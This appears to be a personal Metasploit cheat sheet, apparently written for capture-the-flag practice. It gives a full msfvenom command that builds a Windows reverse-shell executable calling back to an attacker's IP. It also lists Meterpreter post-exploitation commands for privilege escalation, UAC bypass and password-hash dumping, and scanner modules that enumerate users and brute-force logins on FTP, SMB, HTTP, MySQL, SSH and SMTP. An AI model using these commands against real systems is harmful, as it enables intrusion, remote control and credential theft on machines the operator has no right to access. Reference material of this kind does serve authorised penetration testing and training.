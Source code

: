 
### Basics
```
search x
use x
info
show options, show advanced options
SET X (e.g. set RHOST 10.10.10.10, set payload x)
```_
## Staged Reverse Shell msfVenom payload

Basic Windows Reverse Shell:
``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=<Your_Attacker_IP> LPORT=<Your_Port> -f exe > shell.exe
```


### Payloads

Payloads that I have used in rooms
```
cmd/unix/reverse (Check if used exploit is type unix)
```

### Meterpreter

```
background
sessions -l
sessions -i 1
sysinfo, ifconfig, route, getuid
getsystem (privesc)
bypassuac
download x /root/
upload x C:\\Windows
shell
use post/windows/gather/hashdump
```

### Service Enumeration

### FTP
```
use auxiliary/scanner/ftp/ftp_version
use auxiliary/scanner/ftp/ftp_login
use auxiliary/scanner/ftp/anonymous
```

### SMB
```
use auxiliary/scanner/ftp/anonymous
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_login

```
### HTTP
```
use auxiliary/scanner/http/apache_userdir_enum
use auxiliary/scanner/http/brute_dirs
use auxiliary/scanner/http/dir_scanner
use auxiliary/scanner/http/dir_listing
use auxiliary/scanner/http/http_put
use auxiliary/scanner/http/files_dir
use auxiliary/scanner/http/http_login
use auxiliary/scanner/http/http_header
use auxiliary/scanner/http/http_version
use auxiliary/scanner/http/robots_txt
```

### MYSQL
```
use auxiliary/admin/mysql/mysql_enum
use auxiliary/admin/mysql/mysql_sql
use auxiliary/scanner/mysql/mysql_file_enum
use auxiliary/scanner/mysql/mysql_hashdump
use auxiliary/scanner/mysql/mysql_login
use auxiliary/scanner/mysql/mysql_schemadump
use auxiliary/scanner/mysql/mysql_version
use auxiliary/scanner/mysql/mysql_writable_dirs

```
### SSH
```
use auxiliary/scanner/ssh/ssh_version
use auxiliary/scanner/ssh/ssh_login
use auxiliary/scanner/ssh/ssh_enumusers
```

### SMTP
```
use auxiliary/scanner/smtp/smtp_enum
use auxiliary/scanner/smtp/smtp_version
```